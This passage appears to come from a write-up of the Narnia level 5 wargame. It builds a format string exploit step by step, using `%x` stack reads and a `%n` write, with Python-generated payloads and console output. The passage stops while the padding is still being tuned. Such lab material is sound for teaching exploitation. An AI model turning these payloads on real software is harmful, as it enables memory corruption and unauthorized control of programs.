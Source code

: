     The  functions  snprintf() and vsnprintf() write at most size bytes
    (including the trailing null byte ('\0')) to str.

So we won't be able to overflow this buffer. Going through the usual possible exploits 
we've only really go one more to try: [format string attack](https://en.wikipedia.org/wiki/Uncontrolled_format_string) or
*uncontrolled format string vulnerability*. This happens when user input
isn't checked, and allows the user to use format characters (`%s`, `%x`) to read or
manipulate the stack.

For me this is one of the harder exploits to understand, so this level is 
great practice for me. So if it doesn't make sense at first, stick with it and
try various strings. Hopefully you'll grok it at some point.

Let's check to see if our hunch is right. Using a few characters to start, I 
then append a list of `%x`, which read values from the stack and print them.

{{< highlight console >}}
narnia5@melinda:/narnia$ ./narnia5 `python -c "print 'aaaa'+'%x'*10"`
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [aaaaf7eb75b6ffffffffffffd6aef7e2fbf8616161616265376636623537666] (63)
i = 1 (0xffffd6cc)
{{< / highlight >}}

Sure enough we see the beginning of the input string after the 4th `%x`. So we then
put the address if `i` into that location like and shorten the number of `%x`.

{{< highlight console >}}
narnia5@melinda:/narnia$ ./narnia5 `python -c "print '\xcc\xd6\xff\xff'+'%x'*5"`
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [����f7eb75b6ffffffffffffd6aef7e2fbf8ffffd6cc] (44)
i = 1 (0xffffd6cc)
{{< / highlight >}}

Now we have the address of `i`, we use `%n` to write to that address, remembering
to remove one `%x` to keep the right length.

{{< highlight console >}}
narnia5@melinda:/narnia$ ./narnia5 `python -c "print '\xcc\xd6\xff\xff'+'%x'*4 + '%n'"`
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [����f7eb75b6ffffffffffffd6aef7e2fbf8] (36)
i = 36 (0xffffd6cc)
{{< / highlight >}}

So we see that we've written the length of the string into `i`. We already have 
a value of 36, but we need 500. To achieve this we need to pad the string.

{{< highlight console >}}
narnia5@melinda:/narnia$ ./narnia5 $(python -c "print '\xcc\xd6\xff\xff'+'%x'*3 + '%500d' + '%n'")
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [����f7eb75b6ffffffffffffd6ae                                   ] (63)
i = 528 (0xffffd6cc)
{{< / highlight >}}

We're *28* over the target, so let's reduce the padding
